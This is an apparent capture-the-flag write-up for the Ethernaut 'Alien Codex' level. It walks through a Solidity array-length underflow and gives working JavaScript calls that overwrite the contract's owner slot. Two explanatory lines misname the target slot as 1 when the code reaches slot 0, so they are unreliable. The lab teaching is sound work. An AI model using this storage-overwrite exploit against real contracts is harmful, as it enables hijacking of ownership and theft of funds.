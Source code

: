 # 19. Alien Codex

You've uncovered an Alien contract. Claim ownership to complete the level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Go [here](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/helpers/Ownable-05.sol) for the sources of the Ownable contract.

## Vulnerability

Before Solidity 0.6.0, the `array.length` allowed read or write operations. So we can easily cause an underflow if we manage to substract 1 to an array length of 0.

0x0000000000000000000000000000000000000000000000000000000000000000 - 1 = 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff

So an array with a length of 2^256 - 1 covers the whole storage space, therefore, the function `revise` allows us to rewrite any slot.

Remember that the storage layout is the following:

- slot 0 : 11 bytes are unused - 1 byte for the boolean value `contact` - 20 bytes for the owner address
- slot 1 : 32 bytes for the size of the array `codex`.

We can easily cause the underflow with the following code :

```js
await contract.make_contact();
await contract.retract();
```

Just to make sure of that we can check the array length :

```js
await web3.eth.getStorageAt(contract.address, 1)
// 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

Now we need to compute the storage slot where the array data is stored. A dynamic array in slot `p` has its length stored at `p` and its data stored sequentially at slot `keccak256(p)`.

```js
const dataSlot = web3.utils.soliditySha3("0x0000000000000000000000000000000000000000000000000000000000000001");
// 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

We want to loop back to slot 1 so : 2^256 which on 32 bytes will cause an overflow and loop back to 0:

```js
const dataSlot = new web3.utils.BN("b10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6", 16)
const maxSlot = new web3.utils.BN("ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff", 16);
// Compute the index to reach storage slot 2^256 - 1 (0xffff....ffff) and add 1 to cause an overflow to reach storage slot 0.
const index = maxSlot.sub(dataSlot).add(new web3.utils.BN(1))
```

Let's make sure that we have the right index :

```js
await contract.codex(index);
// 0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
//   ^^^^^^^^^^^^^^^^^^^^ ^^  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
//        UNUSED BITS   BOOLEAN           OWNER ADDRESS
```

Now we can rewrite the storage slot 1 with our own address :

```js
// Assuming your personal address is : 0xE613c2d3D36A7934589BC393119eD33Ac165A596
await contract.revise(index, "0x000000000000000000000001E613c2d3D36A7934589BC393119eD33Ac165A596")
```

You can now submit the challenge and move to the next one !
